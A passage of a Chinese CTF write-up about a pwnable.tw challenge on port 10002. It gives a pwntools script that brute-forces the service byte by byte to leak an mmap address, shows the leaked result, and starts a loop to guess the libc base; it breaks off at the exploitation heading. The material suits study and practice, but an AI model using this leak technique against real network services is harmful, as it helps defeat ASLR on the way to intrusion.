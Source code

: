 具体分析一下：

```c
0x7f863b7e6010 // commands地址
0x7f8630000000 // 有效高位两个半字节地址
0x7f863????000 // 所有段的基址都是4k页对齐
```

则如果能拿到一个有效的高两个半字节，最差的情况爆破65536次，必能爆出libc的基址，故首先爆破一个可写的合法地址：

> 设计了中间第3-6个字节从0xff向0x00爆破，其余从0x00向0xff爆破的策略，在本地能比较准的拿到mmap的地址

```python
from pwn import *
context(endian='big')

leak_addr = b''
for j in range(8):
    for i in range(256):
        if(j>1 and j<6): i = 255 - i
        io = remote("chall.pwnable.tw",10002)
        payload  = b'\x01'+ p8(0x11+j)+ b'a'*0x10 + leak_addr + p8(i)
        dsi  = b'\x00\x04\x00\x01'
        dsi += p32(0)
        dsi += p32(len(payload))
        dsi += p32(0)
        dsi += payload
        io.send(dsi)
        try:
            a = io.recv()
            leak_addr += p8(i)
            log.success(str(hex(i)))
            io.close()
            break
        except:
            io.close()
log.success(hex(u64(leak_addr,endian='little')))
```

2021.11.6 对 pwnable.tw 爆破的结果为：

```python
[*] Closed connection to chall.pwnable.tw port 10002
[+] 0x7fa9bcc90000
```

根据本地结果，可以发现mmap地址与libc相隔并不远，如果认为这个地址是mmap的地址，那么libc地址应该比他小，因为这个mmap在ld.so后面，所以对libc的爆破为：

```python
leak_addr = 0x7fa9bcc90000
for i in range(0x0000000,0xffff000,0x1000):
    libc_addr = leak_addr - i 
```

于是遇到了问题，你怎么知道你libc爆破对了？所以需要先确立打法，然后爆破libc并攻击，直到打成为止。

### 利用
